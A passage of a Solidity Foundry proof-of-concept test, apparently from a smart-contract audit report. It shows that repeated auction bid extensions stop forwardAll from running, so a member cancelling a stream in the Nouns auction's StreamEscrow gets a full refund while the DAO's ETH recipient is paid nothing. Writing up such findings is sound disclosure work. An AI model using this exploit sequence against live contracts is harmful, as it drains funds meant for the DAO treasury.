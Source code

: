 ```solidity
        assertEq(auction.auction().endTime, block.timestamp + 24 hours); // new auction will end on MONDAY 10 AM

        //just before the auction ends, Bob bids and thus extends the auction end time
        vm.warp(block.timestamp + 23 hours); // it is MONDAY 9 AM now
        nounId = auction.auction().nounId; // Update nounId to the current auction
        vm.prank(Bob);
        auction.createBid{value: 1 ether}(nounId);

        assertEq(auction.auction().endTime, block.timestamp + 1 days); //new auction is extended
        //so auction is not settled, thus forwardAll isn't called

        vm.warp(block.timestamp + 23 hours + 50 minutes); // Now it is TUESDAY 8h50
        //Carol bids and extends the auction again
        vm.prank(Carol);
        auction.createBid{value: 1.5 ether}(nounId); //with this, auction is extended 1 more day

        assertEq(auction.auction().endTime, block.timestamp + 1 days); //new auction is extended (endTime is always updated on extension)

        //let's warp to Wednesday 7 AM
        vm.warp(block.timestamp + 23 hours);

        console.log(
            "eth recipient balance on Wednesday 7 AM",
            address(StreamEscrow(address(auction.streamEscrow())).ethRecipient()).balance
        );
        //recipient balance hasn't changed. Alice did not stream anything because forwardAll was never called by the logic itself

        //Now alice decides to leave the DAO
        vm.startPrank(Alice);
        nounsToken.approve(address(auction.streamEscrow()), 1);
        auction.streamEscrow().cancelStream(1);
        vm.stopPrank();

        //current tick never got updated because forwardAll was never called
        console.log("current tick", StreamEscrow(address(auction.streamEscrow())).currentTick());
        ///Escrow paid everything back to Alice
        //this is the critical part of the POC
        console.log(
            "escrow balance after Alice leaves the DAO", address(StreamEscrow(address(auction.streamEscrow()))).balance
        );

        console.log(
            "eth recipient balance on Wednesday 7 AM & after Alice leaves the DAO",
            address(StreamEscrow(address(auction.streamEscrow())).ethRecipient()).balance
        );
        //get the owner balance
        console.log("owner balance", owner.balance);

        //Now let's settle the auction
        vm.warp(auction.auction().endTime);
        vm.prank(owner);
        auction.settleCurrentAndCreateNewAuction();

        console.log(
            "eth recipient balance after settlement",
            address(StreamEscrow(address(auction.streamEscrow())).ethRecipient()).balance
        );

        // At this point, Carol paid for her shares.
```